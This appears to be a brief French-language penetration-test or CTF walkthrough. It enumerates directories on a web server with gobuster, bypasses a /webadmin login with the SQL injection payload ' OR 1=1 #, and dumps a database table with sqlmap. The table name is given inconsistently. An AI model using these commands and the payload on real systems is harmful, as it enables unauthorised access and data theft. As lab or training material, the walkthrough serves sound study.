



gobuster dir -u http://54.78.239.15 -w /usr/share/wordlists/dirb/common.txt 
 


POn a un /webadmin qui redirige vers une page de login . 

Test d'injcetion sql dans le login 

apres une injection sql  dans le chmap username avec le payload suit : 
```
' OR 1=1 # 
password : n'importe
```



On se connecte en tant qu'Admin avec un messgae welcome. 



Utiliser sqlmap pour exploiter cette vulnéabilité

Capturer la requête de login puis stocker dans un login.txt

lancer l'attaque 

```
 sqlmap -r login.txt -p username --batch
```

On a une table intéressante : NovaTech

Extraire les infos de cette tab

```
sqlmap -r login.txt -p username --batch -T NexaTech --dump
0```
